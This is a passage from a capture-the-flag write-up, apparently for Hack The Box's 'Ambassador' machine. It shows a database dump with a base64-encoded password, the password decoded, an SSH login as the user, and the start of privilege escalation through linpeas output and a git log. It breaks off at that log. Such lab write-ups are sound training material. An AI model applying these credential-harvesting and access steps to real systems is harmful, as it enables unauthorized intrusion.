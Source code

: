 ```sql
+------------------------+
1 row in set (0.132 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user     | pass                                      |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.134 sec)
```

We get base64 encoded password.Decode it, connect via SSH and take the user.

```zsh
> echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d 
anEnglishManInNewYork027468
> ssh developer@amba.htb
developer@amba.htb's password: 

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
Last login: Mon Oct 24 17:16:55 2022 from 10.10.16.43

bash-5.0$ ls
snap user.txt
```

## Privelege Escalation

Using linpeas, find the git repository:

```
╔══════════╣ Analyzing Github Files (limit 70)

-rw-rw-r-- 1 developer developer 93 Sep 2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14 2022 /opt/my-app/.git
```

```sql
developer@ambassador:/opt/my-app/.git$ git log
fatal: detected dubious ownership in repository at '/opt/my-app/.git'
To add an exception for this directory, call:

   git config --global --add safe.directory /opt/my-app/.git
developer@ambassador:/opt/my-app/.git$ git config --global --add safe.directory /opt/my-app/.git

developer@ambassador:/opt/my-app/.git$ 
developer@ambassador:/opt/my-app/.git$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:  Sun Mar 13 23:47:36 2022 +0000

   tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:  Sun Mar 13 23:44:45 2022 +0000

   config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:  Sun Mar 13 22:47:01 2022 +0000

   created project with django CLI

```